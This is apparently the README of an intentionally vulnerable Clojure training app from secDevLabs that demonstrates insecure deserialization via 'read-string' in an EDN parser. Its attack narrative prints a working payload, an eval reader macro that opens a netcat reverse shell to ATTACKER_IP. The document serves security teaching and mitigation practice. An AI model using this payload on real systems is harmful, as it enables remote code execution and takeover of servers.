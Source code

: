 # edn-parser

API used to parse external EDN files

## What is Insecure Deserialization?

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how insecure deserialization vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup
To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a8/edn-parser
```

```sh
make install
```

## Get to know the app work
To properly understand how this application works, you can follow these simple steps:

```sh
curl http://127.0.0.1:8080/parse-edn -H 'content-type: application/json' -d '{"query":"http://url.of.edn.file"}'
```

## Attack narrative
Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Use of an insecure deserialization function allows for remote code execution
It's possible to reach the server's api from the HTTP port 8080. You have an endpoint named `parse-edn` which is responsible to read  and parse remote edn files from. An attacker could use this application to gain remote code execution because the app uses the function `read-string` which is vulnerable and evaluate Clojure code. So with the following payload an attacker can gain remote code execution:
```
#=(eval (. (java.lang.Runtime/getRuntime) exec (into-array ["sh" "-c" "mknod /tmp/backpipe p;/bin/sh 0</tmp/backpipe | nc ATTACKER_IP 31337 1>/tmp/backpipe"]) ))
```

## Secure this app
How would you mitigate this vulnerability? After your changes, an attacker should not be able to:
* Execute code remotely through a serialization vulnerability
